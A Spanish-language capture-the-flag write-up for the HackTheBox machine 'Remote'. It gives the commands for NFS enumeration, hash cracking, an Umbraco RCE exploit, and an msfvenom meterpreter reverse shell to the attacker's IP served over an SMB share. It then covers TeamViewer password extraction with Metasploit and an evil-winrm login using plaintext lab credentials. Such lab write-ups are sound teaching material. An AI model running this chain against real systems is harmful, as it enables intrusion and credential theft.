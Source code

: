 ```yaml
---
layout: default
---
```

![image](../../Imágenes%20Máquinas/REMOTE.jpg)


# REMOTE [HACKTHEBOX] / Easy
### (Anonymous FTP, Wfuzz enumeration, mounts, hash cracking, Umbraco Remote Code Execution (RCE), Metasploit, Impacket, TeamViewer enumeration, Evil-winrm)

#### - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 

# NMAP Scan

Empezaremos haciendo el nmap de siempre:

```bash
nmap -p- --open -sCV -sS -n -Pn -vvv 10.10.10.180 -oN escaneo_nmap
```

Y nos encontrará un montón de puertos abiertos, vemos 2 que nos interesan a primera vista.

![image](../zimages/Pasted_image_20231203203247.png)

# Enumeration / User Flag

Si probamos a entrar en ftp como Anonymous no nos encuentra nada dentro de ftp:

![image](../zimages/Pasted_image_20231203203401.png)

Vamos a entrar en el puerto 80 (la web), inspeccionamos un poco pero no vemos nada interesante, vamos a hacer un wfuzz para encontrar subdirectorios:

```bash
wfuzz -c --hc=404 -t 200 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u 'http://10.10.10.180/FUZZ'
```

Con estos parámetros nos encuentra un montón de subdirectorios, pero si inspeccionamos un poco vemos que nos aparece uno que se llama "install", que si nos metemos desde la web nos hace un redirect a esta página:

![image](../zimages/Pasted_image_20231203203911.png)

Una vez en esta página vemos que hay un panel de login, pero no parece que haya forma de entrar de momento. Si **volvemos sobre nuestros pasos** y nos vamos al escaneo de nmap que hicimos antes nos damos cuenta que el siguiente puerto de nfs está abierto:

![image](../zimages/Pasted_image_20231203204430.png)

En este puerto se están emitiendo una ubicación por la red (una montura), con el comando 

```bash
showmount -e "10.10.10.180"
```

podemos ver las monturas que está emitiendo esa ip:

![image](../zimages/Pasted_image_20231203204727.png)

Aunque también podemos hacerlo con nmap mediante el comando

```bash
nmap -p 111 --script=nfs-showmount "10.10.10.180"
```

![image](../zimages/Pasted_image_20231203204842.png)

Una vez en este punto, podemos montar en local esa montura con el comando

```bash
mount -t nfs 10.10.10.180:/site_backups /mnt/
```

![image](../zimages/Pasted_image_20231203205218.png)

Si vamos al directorio App_Data vemos que hay un archivo .sdf llamado *Umbraco.sdf*, donde vienen datos en binario. Hay mucha información, así que vamos a poner el comando

```bash
cat Umbraco.sdf | head
```

para que nos ponga en pantalla solo las primeras líneas de este archivo, en las que vemos un hash de la contraseña de admin:

![image](../zimages/Pasted_image_20231203205630.png)

Si nos vamos a la web de https://crackstation.net la crackeamos fácil:

![image](../zimages/Pasted_image_20231203205736.png)
También tenemos el usuario de la web del admin, el login donde pedía un correo:

![image](../zimages/Pasted_image_20231203205810.png)

Si nos vamos a la web y probamos con estas credenciales entramos a la web, que si nos vamos a la esquina de arriba a la izquierda, donde nuestro usuario admin, tendríamos la versión de *Umbraco*:

![image](../zimages/Pasted_image_20231203210018.png)

Si buscamos un exploit por GitHub, nos encontramos con la web https://github.com/Jonoans/Umbraco-RCE/, donde hay que clonar el repositorio. Una vez clonado e instalados los requirements, ejecutamos el ejecutable .py (exploit.py) de la siguiente manera

```bash
python3 exploit.py -u admin@htb.local -p baconandcheese -w http://10.10.10.180 -i 10.10.14.20
```

Una vez puesto este comando, nos da una shell directamente:

![image](../zimages/Pasted_image_20231203213041.png)

El problema es que si probamos a poner comandos básicos no funciona bien. 
Lo primero que haremos es irnos a un directorio donde tengamos más permisos, como por ejemplo *temp*:

```powershell
cd C:\windows\temp
```

Una vez aquí, nos vamos a compartir un archivo malicioso hecho mediante msfvenom para poder conseguir una shell mejor. Vamos a crear el archivo con el siguiente comando:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.20 LPORT=5555 -f exe -o  virus.exe
```

Mediante este comando estamos creando un archivo malicioso .exe, al que le estamos metiendo un payload de una meterpreter de windows, especificando el puerto y nuestra ip. Una vez creado, lo vamos a compartir con la máquina víctima mediante impacket. Con el siguiente comando crearemos un recurso compartido:

```bash
impacket-smbserver samucrow $(pwd) -smb2support
```

Esto básicamente es como hacer un 

```python
python3 -m http.server 80
```

pero para windows funciona mejor impacket.

Una vez iniciado el servidor para compartir archivos, nos vamos a copiar el .exe malicioso a la máquina víctima de la siguiente manera:

```powershell
copy \\10.10.14.20\samucrow\virus.exe virus.exe
```

Una vez tenemos el virus dentro del sistema víctima, nos vamos a metasploit usando msfconsole para usar multi/handler:

![image](../zimages/Pasted_image_20231203215628.png)

con el comando

```msfconsole
set PAYLOAD windows/meterpreter/reverse_tcp
```

vamos a definir el mismo payload que pusimos en el .exe que copiamos en la máquina víctima para conseguir una meterpreter. Vamos a poner los datos que nos piden de nuestra ip, tanto en el payload como en el multi/handler, y vamos a poner también el puerto 5555 en ambos, que es el que especificamos anteriormente en el payload también:

![image](../zimages/Pasted_image_20231203220118.png)

ponemos el comando run y ejecutamos el virus.exe en la máquina víctima poniendo `./virus.exe`, lo que nos dará una meterpreter:

![image](../zimages/Pasted_image_20231203220355.png)

Una vez en la meterpreter, ponemos `shell` y nos dará una shell de windows:

![image](../zimages/Pasted_image_20231203221312.png)

ahora iremos a C:\Users\Public\ para ver la flag de user.

# PRIVESC / Root Flag

Ahora si nos vamos a la ruta "*C:\Program Files (x86)*", vemos que esta máquina tiene *TeamViewer*, por lo que vamos a usar un módulo de metasploit que nos permite enumerar este programa.
Pondremos el comando `background` en la meterpreter (primero hay que hacer `exit`), ahora vamos a buscar lo siguiente: 

```msfconsole
search teamviewer
```

![image](../zimages/Pasted_image_20231203223006.png)

elegimos al opción "1" y si ponemos `show options` vemos que nos pide un SESSION, por lo que listamos las sesiones activas con `session -l`:

![image](../zimages/Pasted_image_20231203223209.png)

elegimos la opción "1" y ponemos `run` y nos encontrará la contraseña de TeamViewer:

![image](../zimages/Pasted_image_20231203223318.png)

Para deducir de que usuario es esta contraseña, vamos otra vez a la shell de meterpreter con `session -i 1` y vamos a la ruta "*C:\users*", donde veremos  que solo existe el usuario **Administrador**.

Ahora con `evil-winrm` vamos a entrar en la máquina como Administrador:

```bash
evil-winrm -i 10.10.10.180 -u 'Administrator' -p '!R3m0te!'
```

Ahora nos iríamos al escritorio del Administrador y tendremos la flag de root.

# ./ROOTED
